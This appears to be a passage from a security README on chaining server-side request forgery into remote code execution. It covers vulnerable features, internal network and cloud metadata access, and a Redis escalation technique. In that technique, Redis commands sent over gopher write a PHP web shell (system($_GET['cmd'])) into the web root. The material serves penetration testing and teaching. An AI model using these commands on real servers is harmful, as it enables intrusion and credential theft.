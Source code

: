 # SSRF to RCE Exploit Chain Pipeline

## 📘 Introduction

**SSRF (Server-Side Request Forgery)** occurs when a web application fetches a remote resource based on user-supplied input **without proper validation**, allowing attackers to manipulate internal or external requests.

While **SSRF** by itself may not always be dangerous, it becomes critical when **chained with other internal services** to achieve **Remote Code Execution (RCE)**.

---

## 🔍 Common SSRF Scenarios

- **Image Proxy/Thumbnail Generator**: Accepts a URL and fetches the image on behalf of the user.
- **Webhook Integrations**: Callback mechanisms that POST to user-defined URLs (e.g., Slack webhooks).
- **PDF Generators**: Convert provided URLs to PDFs.
- **XXE with External DTDs**: Can be abused to trigger SSRF.

---

## 🎯 SSRF Capabilities

- **Scan Internal Networks**  
  Discover live hosts and open ports (e.g., `127.0.0.1`, `192.168.x.x`, `10.x.x.x`).
- **Access Internal Services**  
  Reach services not exposed publicly (e.g., admin panels, databases).
- **Access Cloud Metadata Services**  
  e.g., `http://169.254.169.254/latest/meta-data/` on AWS to obtain IAM credentials.
- **Read Local Files**  
  If `file://` is allowed.
  
---

## 🚀 Escalation from SSRF to RCE

### 1. **Accessing Internal Services**

#### 🔸 Redis / Memcached (Unauthenticated)
- **Protocol**: `gopher://`
- **Technique**:
  - Change Redis config:
    - `CONFIG SET dir /var/www/html/`
    - `CONFIG SET dbfilename shell.php`
  - Set a key with PHP code:
    - `SET x "<?php system($_GET['cmd']); ?>"`
  - Save:
    - `SAVE`
